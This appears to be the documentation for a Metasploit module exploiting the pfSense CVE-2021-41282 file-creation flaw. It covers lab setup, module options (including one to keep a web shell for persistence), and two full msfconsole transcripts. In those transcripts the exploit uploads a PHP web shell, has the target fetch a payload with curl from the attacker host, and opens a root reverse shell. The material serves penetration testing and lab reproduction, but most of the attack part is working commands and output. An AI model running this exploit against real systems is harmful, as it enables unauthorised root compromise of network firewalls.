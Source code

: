 ## Vulnerable Application

### Description

This module exploits an arbitrary file creation vulnerability in the pfSense HTTP interface
(CVE-2021-41282). The vulnerability affects versions <= 2.5.2 and can be exploited by an
authenticated user if they have the "WebCfg - Diagnostics: Routing tables" privilege.

This module uses the vulnerability to create a web shell and execute payloads with root privileges.

### Installation

Download an affected version's ISO. For example, pfSense 2.5.2 can be download here:

https://nyifiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz

* Follow the [installation guide](https://docs.netgate.com/pfsense/en/latest/install/install-pfsense.html) to get an initial base install.
* Log into the web interface using the credentials `admin:pfsense`
* Run through the [setup wizard](https://docs.netgate.com/pfsense/en/latest/config/setup-wizard.html).

To test a user that *only* has the `WebCfg - Diagnostics: Routing tables` privilege, as an
`admin` create a new user. The add user interface is in the `System` -> `User Manager` page.
Select the `Add` user button and create the user. Once the user is created, edit the user
and `Add` an `Effective Privilege`. Only assign `WebCfg - Diagnostics: Routing tables`. Done!

## Verification Steps

* Follow the installation instructions above
* Do: `use exploit/unix/http/pfsense_diag_routes_webshell`
* Do: `set username <name>`
* Do: `set password <password>`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `exploit`
* You should get a reverse shell

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

### USERNAME

The username to log in to the pfSense web interface with. The default is `admin`.

### PASSWORD

The password to log in with. Set to `pfsense` by default.

### WEBSHELL_NAME

Allows the user to name the webshell. If the user doesn't provided a name then one will be automatically generated.
Set to `nil` by default.

### DELETE_WEBSHELL

Indicates if the web shell should be deleted after reverse shell is established. A user may want to leave behind a
web shell for persistence reasons. The default is `true`.

### Target 0

Target 0 is a `CMD_ARCH` reverse shell using openssl.

### Target 1

Target 1 is a `bsd/x64` reverse shell using the curl command stager.


## Scenarios

### pfSense 2.5.2. Reverse shell using openssl cmd_arch payload.

```
msf6 > use exploit/unix/http/pfsense_diag_routes_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > set USERNAME diag_only
USERNAME => diag_only
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > set RHOST 10.0.0.10
RHOST => 10.0.0.10
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > check

[!] This exploit may require manual cleanup of '/usr/local/www/HFkrB' on the target
[+] 10.0.0.10:80 - The target is vulnerable.
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading webshell to /dgGNIYHKgUL.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /dgGNIYHKgUL.php
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/kDumgxJC
[*] Local IP: http://10.0.0.2:8080/kDumgxJC
[*] Client 10.0.0.10 (curl/7.76.1) requested /kDumgxJC
[*] Sending payload to 10.0.0.10 (curl/7.76.1)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[+] Deleted /usr/local/www/hrCcgfpdiGhC
[+] Deleted /usr/local/www/dgGNIYHKgUL.php
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.10:57590 ) at 2022-02-27 18:08:12 -0800
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
pwd
/usr/local/www
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
```

### pfSense 2.5.2. Reverse shell using bsd reverse shell and curl command stager.

```
msf6 > use exploit/unix/http/pfsense_diag_routes_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > set USERNAME diag_only
USERNAME => diag_only
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > set RHOST 10.0.0.10
RHOST => 10.0.0.10
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > check

[!] This exploit may require manual cleanup of '/usr/local/www/QEpijnAPnpu' on the target
[+] 10.0.0.10:80 - The target is vulnerable.
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading webshell to /xsYZjKyayH.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /xsYZjKyayH.php
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/eUKIs9nMdZP2t
[*] Local IP: http://10.0.0.2:8080/eUKIs9nMdZP2t
[*] Client 10.0.0.10 (curl/7.76.1) requested /eUKIs9nMdZP2t
[*] Sending payload to 10.0.0.10 (curl/7.76.1)
[*] Command Stager progress - 100.00% done (114/114 bytes)
[+] Deleted /usr/local/www/MkTcoNc
[+] Deleted /usr/local/www/xsYZjKyayH.php
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.10:1879 ) at 2022-02-27 17:55:51 -0800
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
pwd
/usr/local/www
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
```
